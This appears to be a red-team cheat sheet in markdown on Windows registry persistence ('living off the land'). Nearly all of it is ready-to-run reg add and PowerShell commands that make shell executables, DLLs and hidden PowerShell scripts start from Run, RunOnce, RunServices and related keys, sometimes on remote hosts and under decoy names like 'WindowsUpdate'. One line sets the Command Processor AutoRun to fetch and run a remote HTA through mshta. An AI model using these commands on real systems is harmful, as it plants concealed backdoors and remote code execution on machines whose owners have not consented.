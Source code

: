 # Living off the Land

## 01 - Registry Backdoors

### 1.1 - HKLM

#### 1.1.1 - Add Registry Key Syntax

- Command Prompt

```
C\> reg import file.reg

C:\> reg add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v <value> /t reg_sz /d "rundll32.exe C:\path\to\shell.dll,ExecDLL" /f
```

- Powershell

```powershell
PS C:\> Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "<value>" -PropertyType String -Value "C:\path\to\shell.exe" -Force
```

#### 1.1.2 - Delete Registry Key Syntax

```
C:\> reg del [\\<IP>\]hklm\\software\\microsoft\\currentversion\\run /v <value> /f
```

## Registry Paths List

```
HKLM\Software\Microsoft\Windows\CurrentVersion\Run

HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce

HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run

HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
```

### HKLM

```
C:\> reg add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v Autorun /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce /v UpdateOnce /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices /v WindowsService /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServicesOnce /v UpdateSVC /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001 /v Autorun /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v Dependency /t REG_SZ /d "C:\path\to\shell.dll"
```

### HKCU

```
C:\> reg add [\\<IP>\]HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Image /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg add [\\<IP>\]HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Image /t REG_SZ /d "powershell.exe -ep bypass -w hidden -nologo -NonI -f C:\path\to\shell.ps1" /f

C:\> reg add [\\<IP>\]HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce /v WindowsUpdate /t REG_SZ /d "rundll32.exe C:\path\to\shell.dll,ExecuteShell" /f

C:\> reg add [\\<IP>\]HKCU\Software\Microsoft\Windows\CurrentVersion\RunServices /v Image /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg add [\\<IP>\]HKCU\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce /v Image /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg add [\\<IP>\]HKCU\SOFTWARE\Microsoft\Command Processor /v AutoRun /t REG_SZ /d "powershell.exe Start-Process -windowstyle hidden -FilePath mshta.exe http://<IP>/shell.hta" /f
```

---
## References

- [[Windows Post Exploitation Persistence References]]

- [LOFLCAB: reg](https://lofl-project.github.io/loflcab/Binaries/reg/)